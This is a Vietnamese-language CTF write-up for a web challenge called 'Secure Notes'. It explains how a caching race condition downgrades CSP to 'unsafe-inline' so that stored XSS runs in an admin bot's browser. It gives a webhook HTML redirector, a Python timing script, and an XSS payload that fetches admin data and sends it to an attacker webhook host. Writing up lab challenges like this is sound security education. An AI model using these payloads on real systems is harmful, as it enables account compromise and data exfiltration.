


# Secure Notes (CTF Web)

## Description

A secure note service.

## Table of contents

- [I. Overview](#i-overview)
- [II. Essential Knowledge](#ii-essential-knowledge)
  - [A. HTTP Caching (ETag & If-None-Match)](#a-http-caching-etag--if-none-match)
  - [B. Cookie SameSite & Domain Isolation](#b-cookie-samesite--domain-isolation)
  - [C. Race Condition (TOCTOU)](#c-race-condition-toctou)
- [III. Source code analysis](#iii-source-code-analysis)
- [IV. Vulnerability analysis](#iv-vulnerability-analysis)
- [V. Exploitation](#v-exploitation)
  - [A. Attack Flow](#a-attack-flow)
  - [B. Payload](#b-payload)
  - [C. Live exploit](#c-live-exploit)
- [VI. Discussion](#vi-discussion)

## I. Overview

Hệ thống là một ứng dụng web (được viết bằng Express.js/Node.js) cho phép người dùng tạo, lưu trữ và chia sẻ các ghi chú. Ứng dụng có tính năng "Report" để gửi một đường dẫn URL cho Admin (Bot tự động sử dụng Puppeteer) truy cập và kiểm tra.

Mục tiêu của bài lab là tìm cách lấy được Flag tại endpoint nội bộ `/api/admin/data`. Bằng cách khai thác lỗ hổng logic kết hợp Race Condition trong cơ chế kiểm tra bộ nhớ đệm (Cache), kẻ tấn công có thể vô hiệu hóa Content-Security-Policy (CSP). Từ đó, thực thi mã độc Cross-Site Scripting (XSS) trên trình duyệt của Admin Bot để đánh cắp Flag.

## II. Essential Knowledge

Kiến thức nền tảng về cơ chế bảo mật trình duyệt và quản lý luồng xử lý thời gian.

### A. HTTP Caching (ETag & If-None-Match)

Khi trình duyệt tải một trang web lần đầu, nó sẽ nhận được nội dung kèm theo một mã định danh phiên bản gọi là ETag. Ở những lần truy cập sau vào cùng một URL, trình duyệt sẽ tự động đính kèm header `If-None-Match: <ETag_cũ>`. Server sẽ dựa vào header này để biết người dùng đang xem trang web từ bộ nhớ đệm (Cache) hay tải mới hoàn toàn.

### B. Cookie SameSite & Domain Isolation

Thuộc tính `SameSite: 'lax'` của Cookie ngăn chặn trình duyệt gửi cookie trong các truy vấn ngầm (như `fetch` hoặc `XHR`) từ một tên miền khác tới (Cross-Origin). Thêm vào đó, đối với trình duyệt, `localhost` và `127.0.0.1` là hai tên miền hoàn toàn khác biệt dù chúng trỏ về cùng một máy chủ.

### C. Race Condition (TOCTOU)

Lỗ hổng Time-of-Check to Time-of-Use (TOCTOU) xảy ra khi một hệ thống kiểm tra một trạng thái, nhưng trạng thái đó có thể bị thay đổi bởi một tiến trình khác trước khi hệ thống thực sự sử dụng kết quả kiểm tra đó.

## III. Source code analysis

### `app.js` - `GET /note/:id`

Endpoint hiển thị ghi chú (do user tạo và submit lên). Biến `isConditional` kiểm tra sự tồn tại của header `If-None-Match`. Nếu không có (truy cập lần đầu), server sẽ cập nhật thời gian xem lần cuối `note.lastFreshView = Date.now()`.


Đáng chú ý, cơ chế bảo vệ CSP sẽ bị hạ cấp thành `unsafe-inline` (cho phép chạy Script tự do) nếu thỏa mãn 3 điều kiện:

1. Note đang được share (`note.shared`).
2. Request có header `If-None-Match` (`isConditional`).
3. Thời điểm share phải diễn ra **sau** thời điểm xem lần cuối (`shareAfterLastView`).

```js
const isConditional = !!req.headers['if-none-match'];
if (!isConditional) {
    note.lastFreshView = Date.now();
}
const shareAfterLastView = note.shareTime && note.lastFreshView &&
                            note.shareTime > note.lastFreshView;

if (note.shared && isConditional && shareAfterLastView) {
    res.setHeader('Content-Security-Policy',
        "default-src * 'unsafe-inline'; script-src 'unsafe-inline' *; connect-src *; img-src *");
    // ...
}
```

### `app.js` - `POST /api/note/:id/share`

Endpoint cập nhật trạng thái Share và gán `note.shareTime = Date.now()`.


### `bot.js`

Mô phỏng hành vi Admin. Bot sẽ đăng nhập tại địa chỉ `http://localhost:3000` (Cookie được lưu cho domain `localhost`). Sau khi mở URL được chỉ định, bot có cấu hình `--disable-popup-blocking` và đứng chờ 15 giây trước khi đóng trình duyệt.

## IV. Vulnerability analysis

- **Vô hiệu hóa CSP (CSP Bypass):** Hệ thống tin tưởng mù quáng vào các phép toán thời gian để quyết định việc nới lỏng CSP. Tuy nhiên, attacker có thể thao túng các mốc thời gian này. Bằng cách lợi dụng thời gian chờ 15 giây của Bot, ta có thể lừa bot mở Note lần 1 (để kích hoạt `lastFreshView`), sau đó Attacker tự tay nhấn Share Note (để kích hoạt `shareTime`), và cuối cùng ép bot tự động tải lại Note lần 2 (để có `isConditional = true`). Lúc này `shareTime > lastFreshView` là đúng, dẫn đến CSP bị vô hiệu hóa.

- **Không mã hóa đầu ra**: Ở trong `note/:id`, phần `note.title` được escape nhưng `note.content` thì lại không. Chỗ này chắc chắn dính XSS, nếu trick được bot vào thì sẽ thực thi được mã độc.

## V. Exploitation

### A. Attack Flow

Nếu lười đọc thì xem diagram ở dưới:

1. Attacker tạo một Note độc hại chứa payload XSS (mã này sẽ gọi tới `/api/admin/data` để lấy flag).
2. Attacker gửi một URL Webhook tự tạo (chứa mã điều hướng) vào endpoint `/report` để gọi Admin Bot.
3. Bot truy cập Webhook. Mã JavaScript trên Webhook mở một tab mới trỏ tới Note độc hại. Vì là truy cập lần đầu, `isConditional = false`, hệ thống chốt mốc thời gian `lastFreshView`.
4. Trong lúc Bot đang mở tab, Attacker dùng script bắn API `/api/note/:id/share` (chặn chuyển hướng) để thiết lập `shareTime`, đảm bảo `shareTime > lastFreshView`.
5. Sau 5 giây, mã trên Webhook ép Bot tải lại (reload) tab chứa Note. Lúc này trình duyệt Bot đã có cache -> `isConditional = true`. Mọi điều kiện bypass CSP thỏa mãn.
6. Payload XSS trong Note được thực thi, lấy Flag và gửi về máy chủ của kẻ tấn công.


### B. Payload

#### 1) Mã HTML điều hướng cho Webhook (`payload.html`)

Host nội dung này trên một server do attacker kiểm soát (ví dụ: `http://webhook.của.bro/payload.html`):

```html
<script>
    // Bắt buộc dùng localhost để bảo toàn Cookie Admin
    const note_url = 'http://localhost:3000/note/ID_CỦA_NOTE';

    // Mở Note lần 1
    let w = window.open(note_url);

    // Đợi 5 giây rồi tải lại trang để gửi kèm ETag
    setTimeout(() => {
        w.location.href = note_url;
    }, 5000);
</script>
```
- **Domain Mismatch:** Ứng dụng gán cookie cho Bot thông qua biến môi trường `CHALLENGE_URL` đang trỏ về `http://localhost:3000`. Mọi payload XSS gọi tới `127.0.0.1` đều sẽ mất Cookie Admin do không cùng tên miền. Cần phải đồng bộ toàn bộ URL tấn công về `localhost`.

#### 2) Script tấn công tự động (`payload.py`)

Script này đảm nhiệm việc đồng bộ thời gian với Bot:

```python
import requests
import time

s = requests.Session()
note_id = "ID_CỦA_NOTE_ĐÃ_CHỨA_XSS"

# 1. Đăng nhập với tư cách User thường
s.post(url='http://127.0.0.1:3000/login', data={"username": "attacker"})

# 2. Gọi Bot truy cập vào Webhook của mình
s.post(url="http://127.0.0.1:3000/report", data={
    "url": "http://webhook.của.bro/payload.html"
})

# Trong thực tế thì tuy điều kiện mạng và infra để điều chỉnh sleep cho phù hợp. Ở local của mình là 5 giây nhưng với remote instance thì 13 15 giây mới hoạt động đúng
print("[*] Đã gọi Bot. Đứng chờ 2 giây để Bot khởi động Chrome...")
time.sleep(2)

# 3. Kích hoạt Share với tùy chọn cấm Follow Redirect để không phá hỏng lastFreshView
print("[*] Kích hoạt ShareTime...")
s.post(url=f"http://127.0.0.1:3000/api/note/{note_id}/share", allow_redirects=False)

print("[*] Hoàn tất! Check webhook lấy cờ.")
```

- **Request Follow Redirect:** Các thư viện HTTP (như Python `requests`) mặc định đi theo mã chuyển hướng `302`. Nếu Attacker gọi hàm Share bằng Python, thư viện sẽ tự động gọi thêm 1 request `GET` tải trang Note (không có ETag), làm phá hỏng hoàn toàn mốc thời gian `lastFreshView`.

#### 3) Payload XSS cho Note

Tạo Note mới với nội dung `content` chứa mã JS. Chú ý phải dùng `localhost`:

```html
<script>
    fetch('http://localhost:3000/api/admin/data')
    .then(r => r.text())
    .then(flag => fetch('http://webhook.của.bạn/?flag=' + flag))
</script>
```

### C. Live exploit
1. Submit một note chứa mã độc lên và lấy id được trả về. (chỉnh `Content-Type: application/json` để server trả về id trong dạng json)


2. Upload payload lên webhook và lấy một đường dẫn công khai.
3. Chạy script Python. Script sẽ tự động đăng nhập, gửi URL Webhook cho Bot. Bot sẽ mở tab mới tải trang note chứa mã XSS.
4. Ngay khi Bot vừa tải xong trang Note (chốt mốc `lastFreshView`), Python script kích hoạt hàm Share, chốt mốc `shareTime`.



5. Hết 5 giây, Webhook ép trình duyệt Bot reload. Server kiểm tra thấy các điều kiện bypass CSP hợp lệ, trả về `unsafe-inline`. Payload `fetch` được chạy dưới quyền session Admin và gửi về Webhook.




> Flag: ***BKISC{I_th0ught_I_w4s_s3cur3_but_chr0me_1s_4lw4ys_s0m3thing_n3w_b50cf0bc843d}***

## VI. Discussion

### Tại sao không chạy Fetch trực tiếp trên Webhook?

Thuộc tính `SameSite: 'lax'` trong Cookie Admin quy định: trình duyệt sẽ từ chối đính kèm Cookie nếu một trang web lạ (khác nguồn/Cross-Origin) dùng `fetch()` ngầm gọi tới máy chủ (Nếu là top-level navigation thì được). Do đó, mã XSS bắt buộc phải được thực thi từ bên trong một trang web hợp lệ của chính hệ thống (trang xem Note).

### Tác dụng phụ của `allow_redirects` mặc định (nếu dùng requests lib của Python)

Trong các cuộc tấn công yêu cầu độ chính xác cao về mặt thời gian (như Race Condition/TOCTOU), việc các công cụ HTTP tự động bám theo mã chuyển hướng (Follow Redirects) thường gây ra tác dụng phụ. Request tự động sinh ra không chứa bộ nhớ đệm (ETag), khiến máy chủ làm mới lại mốc thời gian và khiến logic tấn công sụp đổ hoàn toàn. Luôn kiểm soát chặt các HTTP flow bằng `allow_redirects=False`.


> Tag: `XSS`,`CSP`,`HTTP Cache`,`Client-Side`,`Race Condition`